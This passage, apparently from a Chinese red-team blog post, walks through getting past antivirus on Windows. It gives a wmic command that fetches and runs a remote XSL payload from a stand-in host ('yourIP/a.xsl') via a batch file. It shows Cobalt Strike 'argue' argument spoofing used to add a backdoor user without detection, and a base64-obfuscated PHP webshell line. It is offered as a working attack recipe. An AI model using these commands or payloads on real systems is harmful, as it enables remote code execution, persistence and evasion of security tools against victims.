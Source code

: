 [![](https://p4.ssl.qhimg.com/t017775f0323cf20b25.gif)](https://p4.ssl.qhimg.com/t017775f0323cf20b25.gif)

所以最后命令为 echo ^echo os get /format:”[http://yourIP/a.xsl”^|wmic&gt;&gt;1.bat&amp;&amp;1.bat](http://yourIP/a.xsl%22%5E%7Cwmic&gt;&gt;1.bat&amp;&amp;1.bat)

最后来看看在某斯基，某全家桶，某管家，某绒的监督下，不落地执行 shellcode 会是什么样子。

[![](https://p4.ssl.qhimg.com/t017775f0323cf20b25.gif)](https://p4.ssl.qhimg.com/t017775f0323cf20b25.gif)

看着 6 秒没有反应，还以为是被 某斯基 杀了，结果发现没有。上线后如果执行敏感操作，如创建用户，可以考虑用 argue 参数污染。

> 使用参考[https://www.freesion.com/article/3342904336/](https://www.freesion.com/article/3342904336/)

**<a class="reference-link" name="%E5%8F%82%E6%95%B0%E6%B1%A1%E6%9F%93%20net"></a>参数污染 net**

```
argue net xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

**<a class="reference-link" name="%E6%9F%A5%E7%9C%8B%E6%B1%A1%E6%9F%93%E7%9A%84%E5%8F%82%E6%95%B0"></a>查看污染的参数**

```
argue
```

**<a class="reference-link" name="%E7%94%A8%E6%B1%A1%E6%9F%93%E7%9A%84%20net%20%E6%89%A7%E8%A1%8C%E6%95%8F%E6%84%9F%E6%93%8D%E4%BD%9C"></a>用污染的 net 执行敏感操作**

```
execute net user test2 root123 /add
```

全程某全家桶是没有进行拦截的

[![](https://p5.ssl.qhimg.com/t01f849adf0a8116a40.png)](https://p5.ssl.qhimg.com/t01f849adf0a8116a40.png)

[![](https://p3.ssl.qhimg.com/t016a12345ffdfad21b.png)](https://p3.ssl.qhimg.com/t016a12345ffdfad21b.png)

原理简单来讲也如同 P 图，原本执行 net，但是污染后 command 却是 net xxxxxxxxxx，达到绕过。

你在使用中肯定会遇到一些小问题，比如，wmic 加载了一个没有开放的端口就会出现

[![](https://p1.ssl.qhimg.com/t01423211be1df5b2d7.png)](https://p1.ssl.qhimg.com/t01423211be1df5b2d7.png)

那么最好的解决办法就是不去解决，等待一分钟过后就可以了，它们都会自己退出。这告诉了我们一件事情，一定记得去防火墙设置里面开放端口。

[![](https://p5.ssl.qhimg.com/t01f2f5b777243ce044.png)](https://p5.ssl.qhimg.com/t01f2f5b777243ce044.png)

讲完了 cmd 命令的绕过那么就开始 upload 中 Webshell 的绕过。

Php 是参考冰蝎的回调函数进行利用的 php 语句。

```
let phpshell = "&lt;?php @call_user_func(base64_decode(\"c3lzdGVta\"),\"" + wmicCMDshell + "\");"
```
